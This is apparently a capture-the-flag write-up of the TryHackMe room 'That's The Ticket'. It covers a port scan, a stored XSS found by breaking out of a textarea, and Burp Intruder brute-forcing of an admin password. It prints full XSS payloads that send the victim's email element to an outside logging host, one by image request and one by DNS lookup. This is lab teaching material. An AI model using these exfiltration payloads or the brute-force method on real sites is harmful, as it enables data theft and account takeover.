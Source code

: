 # That's The Ticket | Sept 26, 2022

## Introduction:

Welcome to my another writeup! In this TryHackMe [That's The Ticket](https://tryhackme.com/room/thatstheticket) room, you'll learn: Stored XSS, or Cross-Site Scripting! Without further ado, let's dive in.

## Background

> IT Support are going to have a bad day, can you get into the admin account?

> Difficulty: Medium

```
IT Support is going to have a really bad day today, but don't think they're stupid! They have really strict firewalls!

Using the IT support portal try and make your way into the admin account.

Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful! 
```

- Overall difficulty for me: Easy

# Task 1 - Lab Informaion

- Question 1: What is IT Supports email address?

As usual, scan the machine for open ports via `rustscan`!

**Rustscan:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/That's-The-Ticket]
└─# export RHOSTS=10.10.213.250
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/That's-The-Ticket]
└─# rustscan --ulimit 5000 -t 2000 --range=1-65535 $RHOSTS -- -sC -sV -oN rustscan/rustscan.txt
[...]
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf:c3:9c:99:2c:c4:e2:d9:20:33:d1:3c:dc:01:48:d2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8dfacBZcXm48CzKZh1Vd6tO6p86sR7PyBbxJj9q9Zifzlq+GmD+r1eXLaH+waOWnD/fmPr8CtScSVP0iu0opnIZ21A4Zy/SOjNKVuDWGWP36cj/XxiTlLL3qfOk0OXy/xVEYycYWhiJm1VLhOSg5Tk3xGGJRBY9V1MfBF/Oq2DdEcODzUnh/JLikJctZ15DwGTaY+6ehl6Kh1PwRQ6XZmhLP42P9NtPCY8AkXCO2EJrE/tzckhUzi4vr17Z0M4zZd8AZX1SfX3t5hULhKMDbQ7zRQNTIeaLYdPBa4Yu3Ze2annUvOlKhnTKm+omW7vbXKWurIWRqyG59F12sNHl3P
|   256 08:20:c2:73:c7:c5:d7:a7:ef:02:09:11:fc:85:a8:e2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO1cxZc0WJgiYCd7m7sxzMYbgVLjqIc40ZZi4Y+M+YHJeISCq1bhTMLSpIWHxwpnQg+qVD3wrgYWI9Hr6FGGMrg=
|   256 1f:51:68:2b:5e:99:57:4c:b7:40:15:05:74:d0:0d:9b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFCYrvmQ5DCiI8ZbvzVWWIkj1apQr36j4vJ8K8MfUCKz
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-title: Ticket Manager > Home
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

According to `rustscan` result, we have 2 ports are opened:

Ports Open        | Service
------------------|------------------------
22                | OpenSSH 7.6p1 Ubuntu
80	              | nginx 1.14.0 (Ubuntu)

## HTTP on Port 80

**In the home page, we can see that we're able to login or register an account:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a1.png)

**`/login`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a2.png)

In the login page, I tried to authentication bypass with SQL injection, but no dice.

**Then I guess we'll have to register an account in `/register`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a3.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a4.png)

After we registered an account, we can create a ticket. I'll create a ticket for testing purposes:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a5.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a6.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a7.png)

I also tried the IDOR, or Insecure Direct Object Reference, but when I reach `/1`, it redirects me to the home page.

Now, **why not test the message box is vulnerable to XSS, or Cross-Site Scripting?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a8.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a9.png)

The `alert(1)` is not working?

After inspecting the message box, I found that **this is a `textarea` in HTML**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a10.png)

**To bypass `textarea`, we can just simply close that tag by adding `</textarea>` before our XSS payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a11.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a12.png)

Yes!!! We trigged the XSS vulnerability, and it's a stored XSS!

**Now, we can create an iframe XSS payload!**

> Note: You can create HTTP & DNS Logging tool in [TryHackMe Request Catcher](http://10.10.10.100).

**payload:**
```html
</textarea><iframe src="http://cab5af170585946566f5fc8d2578fdd1.log.tryhackme.tech/">
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a13.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a14.png)

Confirmed that we have a call back.

**Now we need admin's email in question 1**

After logged in, the top-right hand corner has **a `<span>` tag, which contains the `email` id**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a15.png)

We can leverage the XSS vulnerability to capture admin's email via the follow payload! (From a [GitHub repository](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) and a [StackOverflow post](https://stackoverflow.com/questions/13341095/how-to-get-the-value-of-id-of-innerhtml).) 

```html
</textarea><script>var i=new Image;i.src="http://cab5af170585946566f5fc8d2578fdd1.log.tryhackme.tech/?"+document.getElementById('email').innerHTML;</script>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a16.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a17.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a18.png)

> Note: Some DNS requests are the admin user. 

Successfully capture our email, let's capture the admin's email!

**Since URL encoding will break special characters like `@` and `.`, we need to escape them:**
```html
</textarea><script>
var i = document.getElementById('email').innerText;
i = i.replace('@', 'at')
i = i.replace('.', 'dot')
document.location = 'http://' + i + '.cab5af170585946566f5fc8d2578fdd1.log.tryhackme.tech/';
</script>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a19.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a20.png)

**In one of those DNS requests, we can see that there is an email for user `admin`!!**

- Question 2: Admin users password

Armed with admin's email, **we can bruteforce his password via Burp Suite Intruder!**

**To do so, I'll:**

- Intercept the POST request in `/login` via Burp Suite:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a21.png)

- Send the intercepted request to `Intruder`: (`Ctrl + i`)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a22.png)

- Clear all positions via `Clear` button:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a23.png)

- Highlight the password, and add position to it via `Add` button:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a24.png)

- Load a password wordlist payload in `Payloads` tab:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a25.png)

- After loaded the wordlist, click `Start Attack`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a26.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a27.png)

**Found the password!**

- Question 3: Flag inside Ticket 1

**Let's login to the admin user!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a28.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a29.png)

We're in!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/That's-The-Ticket/images/a30.png)

# Conclusion

What we've learned:

1. Stored XSS (Cross-Site Scripting)
2. Password Bruteforcing in HTTP POST Form
